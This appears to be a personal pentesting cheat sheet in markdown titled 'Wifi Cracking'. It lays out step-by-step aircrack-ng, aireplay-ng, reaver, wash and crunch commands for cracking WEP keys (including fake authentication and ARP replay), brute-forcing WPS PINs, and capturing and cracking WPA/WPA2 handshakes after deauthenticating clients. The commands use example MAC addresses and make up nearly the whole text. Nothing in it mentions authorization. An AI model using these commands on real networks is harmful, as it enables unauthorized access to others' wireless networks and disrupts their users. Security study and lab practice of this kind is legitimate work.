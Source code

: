 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wps hacking.

`wash --interface wlan0mon` a wps recon tool to search around for wps enabled AP/routers.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><code>wash</code></p></figcaption></figure>

`aireplay-ng --fakeauth 30 -a targetMacAddr -c wirelessAdapterMacAddr wlan0mon` This creates association with the target network every 30 seconds.

`reaver --bssid targetBssid --channel targetChannel -i wlan0mon -vvv --no-associate` running reaver to carryout bruteforcing.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><code>reaver</code></p></figcaption></figure>

### wpa / wpa2 hacking

`airodump-ng --bssid 98:A9:42:27:A2:CA --channel 10 --write wpa_handshake wlan0mon` to create a handshake .cap file.&#x20;

`aireplay-ng --deauth 20 -a 98:A9:42:27:A2:CA -c A8:9C:ED:3A:5E:B7 wlan0mon` where `-a` is AP macAddr and `-c` is client macAddr.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-55 (1).png" alt=""><figcaption><p>captured handshake</p></figcaption></figure>

using the `crunch` utility to create a word list for bruteforcing.

`crunch 6 6 abc123 -o test.txt -t a@@bb` use the man crunch for guides.

`aircrackng wpa_handshake-01.cap -w test.txt` to run bruteforce.

